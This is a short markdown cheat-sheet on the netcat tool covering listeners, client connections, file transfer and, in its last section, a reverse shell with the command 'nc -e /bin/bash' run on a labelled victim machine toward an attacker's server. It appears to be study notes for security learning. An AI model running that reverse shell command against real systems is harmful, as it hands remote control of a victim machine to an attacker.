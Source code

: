 **Title:** netcat
**Tags:** [[Network]]
**Topics:** #netcat 

---
# netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.

> Listener
```bash
nc -lp PORT > /path/to/outfile 
```

> Client
```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```
[-w]: Define the timeout in seconds.


## Reverse Shell
Use netcat in server mode to listen for connections then supply the shell from the client. This will allow the session on the server to run commands on the client once the shell is received.

> Server (Attacker Machine)
```bash
$ nc -lvnp 8080
```

> Client (Victim Machine)
```bash
$ nc -e /bin/bash @Server_IP PORT
```
[-e]: Execute external program after accepting a connection or making connection.
